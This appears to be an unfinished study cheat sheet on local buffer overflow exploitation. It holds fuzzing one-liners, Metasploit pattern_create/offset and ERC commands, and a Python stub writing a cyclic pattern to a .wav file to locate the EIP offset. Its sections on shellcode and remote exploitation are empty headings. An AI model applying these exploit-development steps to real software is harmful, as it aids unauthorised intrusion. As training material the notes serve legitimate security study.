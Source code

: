 # Local Buffer Overflow
## Fuzzing

```
python -c "print('A'*10000)"
python -c "print('A'*10000, file=open('fuzz.wav', 'w'))"
```

## Controlling EIP

### Creating Unique Pattern

```
/usr/bin/msf-pattern_create -l 5000
```

```
ERC --pattern c 5000
```

### Exploit

win32bof_exploit.py

```
def eip_offset():
	payload = bytes("Aa0Aa1Aa2Aa3Aa4Aa5...Gj7Gj8Gj9Gk0Gk1Gk2Gk3Gk4Gk5Gk", "utf-8")

	with open('pattern.wav', 'wb') as f:
		f.write(payload)

eip_offset()
```

### Calculating EIP Offset

```
/usr/bin/msf-pattern_offset -q 31684630
```

Seleccionar EIP, botón derecho y Modificar valor 
```
ERC --pattern o 1hF0
```
## Indetyfing Bad Characters





## Finding a Return Instruction



## Jumping to Shellcode



# Remote Buffer Overflow

## Remote Fuzzing




## Building a Remote Exploit



## Remote Exploitation